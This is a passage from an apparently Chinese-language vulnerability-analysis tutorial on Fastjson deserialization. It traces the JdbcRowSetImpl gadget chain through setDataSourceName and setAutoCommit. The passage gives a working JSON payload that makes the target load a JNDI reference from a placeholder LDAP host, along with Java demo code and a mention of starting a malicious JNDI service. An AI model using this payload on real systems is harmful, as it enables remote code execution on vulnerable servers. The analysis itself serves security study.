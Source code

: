 ![alt text](image-454.png)

而 JdbcRowSetImpl 类的 setDataSourceName 方法应该如何进一步向上跟，上文也已经给出了答案，写成`{"@type":"com.sun.rowset.JdbcRowSetImpl","DataSourceName":null}`然后调用 parseObject 即可，演示如下-->

```java
package fastjson;

import com.alibaba.fastjson.JSON;

public class FastjsonDemo {
    public static void main(String[] args) {
        String payload = "{\"@type\":\"com.sun.rowset.JdbcRowSetImpl\",\"DataSourceName\":\"xxx\"}";
        JSON.parseObject(payload);
    }
}
```

接着在 JdbcRowSetImpl 类的 setDataSourceName 方法处下断点，调试运行 FastjsonDemo 即可，演示如下-->

![alt text](image-455.png)

OK，那现在参数的问题解决了，是完全可控的，再去分析如何才能让代码成功的走到 Sink 处呢？去看 connect 方法的调用情况如下-->

![alt text](image-456.png)

有三处调用，其实现在已经掌握技巧了，直接去看 setAutoCommit 方法即可-->

![alt text](image-457.png)

同样是一个 Setter，不啰嗦了，改一下代码即可得到最终的 Payload-->

```java
package fastjson;

import com.alibaba.fastjson.JSON;

public class FastjsonDemo {
    public static void main(String[] args) {
        String payload = "{\"@type\":\"com.sun.rowset.JdbcRowSetImpl\",\"DataSourceName\":\"ldap://xxx.xxx.xxx.xxx:1389/szbfrf\",\"AutoCommit\":\"true\"}";
        JSON.parseObject(payload);
    }
}

```

起一个 JNDI-Injection 的恶意服务-->

![alt text](image-458.png)

这里 JDK 版本选择 JDK 8u121 运行 FastjsonDemo，此时成功触发 DNS 请求，如下-->

![alt text](image-394.png)

再调试运行，截一张 Sink 的图，如下-->

![alt text](image-459.png)




